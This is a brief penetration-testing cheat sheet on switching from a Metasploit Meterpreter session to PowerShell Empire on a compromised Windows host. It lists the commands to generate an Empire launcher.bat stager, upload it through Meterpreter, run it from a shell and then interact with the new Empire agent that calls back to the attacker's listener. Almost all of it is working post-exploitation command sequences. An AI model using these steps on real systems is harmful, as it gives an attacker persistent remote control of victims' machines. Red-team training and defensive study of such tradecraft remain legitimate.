

switch from Metasploit to Empire
Meterpreter shell active on the target hostIf we have a meterpreter shell on the target host but we want to use a feature available on Empire
(Empire)> usestager windows/[TAB][TAB] #press two times TAB
(Empire)> usestager windows/launcher_bat
(Empire)> set Listener [custom-listener] #lister already set
(Empire)> execute
meterpreter> upload /tmp/launcher.bat
meterpreter> pwd
meterpreter> shell
C:\> dir
C:\> launcher.bat
----NOW WE SHOULD HAVE A NEW AGENT ON EMPIRE----
(Empire)> interact [newAgent]
Now if we come back to Empire we should have a new Empire Agent!
